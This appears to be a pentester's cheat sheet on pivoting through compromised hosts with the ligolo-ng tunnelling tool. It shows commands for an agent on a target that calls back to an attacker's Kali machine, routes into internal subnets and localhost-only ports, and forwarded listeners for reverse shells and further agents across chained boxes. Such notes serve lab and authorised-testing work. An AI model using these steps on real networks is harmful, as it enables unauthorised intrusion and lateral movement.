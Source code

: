 # ***Pivot***
## 1 Kali
```shell
# 1 (default listening port 11601)
sudo ./proxy -selfcert
interface_create --name "agent1"

# 2 WAIT FOR AGENT TO CONNECT THEN...
```

```shell
# 3 After Agent connects
session
<session_num>
tunnel_start --tun agent1
ifconfig
interface_add_route --name agent1 --route 192.168.%.0/24
```
***localhost access (If ports on target only accept localhost)***
```shell
interface_add_route --name agent1 --route 240.0.0.1/32
```

## 2 TARGET
```shell
./agent -connect KALI_IP:11601 -ignore-cert
```

# *Multiple Pivots*
***Kali -> Box 1 - Box 2 - Box 3 -> Box 4 ...***
*If **Box 2** will have an **agent** to access Box 3, than the **Box 1 agent** will need the following listeners, and so on and so forth for each subsequent boxes:*
1. _**HTTP listener** for interacting back to our Kali from Box 2_
2. _**Reverse shell listener** for Box 2 to bind to our listener for access_
3. _**Agent listener** for agent on Box 2 to reach back to our Kali_
```shell
# 1. FIRST in Kali
interface_create --name "agent2"

# 2. THEN for AGENT 1 in BOX 1
listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:ANY_OPEN_PORT # http
listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:ANY_OPEN_PORT # reverse
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 # agent

# 3. RUN agent 2 from Box 2 then when agent connects:
session
<session_num agent 2>
tunnel_start --tun agent2
ifconfig
interface_add_route <Box_3_SUBNET>

# https://medium.com/@issam.qsous/mastering-multi-pivot-strategies-unleashing-ligolo-ngs-power-double-triple-and-even-quadruple-dca6b24c404c
# https://medium.com/@Poiint/pivoting-with-ligolo-ng-0ca402abc3e9
```